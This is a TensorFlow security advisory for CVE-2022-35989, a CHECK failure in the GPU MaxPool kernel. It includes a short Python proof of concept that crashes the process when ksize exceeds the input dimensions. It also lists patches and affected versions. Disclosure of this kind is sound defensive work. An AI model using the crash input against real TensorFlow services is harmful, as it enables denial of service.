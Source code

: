 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2022-120.md
## TFSA-2022-120: `CHECK` fail in `MaxPool`

### CVE Number
CVE-2022-35989

### Impact
When `MaxPool` receives a window size input array `ksize` with dimensions greater than its input tensor `input`, the GPU kernel gives a `CHECK` fail that can be used to trigger a denial of service attack.
```python
import tensorflow as tf
import numpy as np

input = np.ones([1, 1, 1, 1])
ksize = [1, 1, 2, 2]
strides = [1, 1, 1, 1]
padding = 'VALID'
data_format = 'NCHW'

tf.raw_ops.MaxPool(input=input, ksize=ksize, strides=strides, padding=padding, data_format=data_format)
```

### Patches
We have patched the issue in GitHub commit [32d7bd3defd134f21a4e344c8dfd40099aaf6b18](https://github.com/tensorflow/tensorflow/commit/32d7bd3defd134f21a4e344c8dfd40099aaf6b18).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Jingyi Shi.
